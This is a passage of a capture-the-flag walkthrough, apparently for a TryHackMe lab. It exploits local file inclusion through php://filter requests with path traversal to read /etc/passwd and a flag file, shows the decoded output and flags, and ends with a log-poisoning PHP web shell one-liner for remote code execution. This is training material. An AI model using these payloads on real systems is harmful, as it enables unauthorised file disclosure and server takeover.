 ```
└─# echo $base | base64 -d
<?php echo 'Control is an illusion'; ?>

```
```
 </button></a> <a href="/test.php?view=/var/www/html/development_testing/mrrobot.php"><button id="secret">Here is a button</button></a><br>
        <?php

	    //FLAG: thm{explo1t1ng_lf1}
```

Now bypass the LFI
```
GET /test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/..//..//..//..//..//../etc/passwd
──(root㉿1337)-[/home/bloman]
└─# echo $base | base64 -d
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
uuidd:x:105:109::/run/uuidd:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
archangel:x:1001:1001:Archangel,,,:/home/archangel:/bin/bash


```
Then Guess reading
```
GET /test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/..//..//..//..//..//../home/archangel/user.txt 
└─# base=dGhte2xmMV90MF9yYzNfMXNfdHIxY2t5fQo= 
                                                                
┌──(root㉿1337)-[/home/bloman]
└─# echo $base | base64 -d
thm{lf1_t0_rc3_1s_tr1cky}

```
From Lfi2Rce
Ressources: https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi2rce
If the Apache or Nginx server is vulnerable to LFI inside the include function you could try to access to `/var/log/apache2/access.log` or /var/log/nginx/access.log, set inside the user agent or inside a GET parameter a php shell like `<?php system($_GET['c']); ?>` and include that files
`GET /test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/..//..//..//..//..//../var/log/apache2/access.log `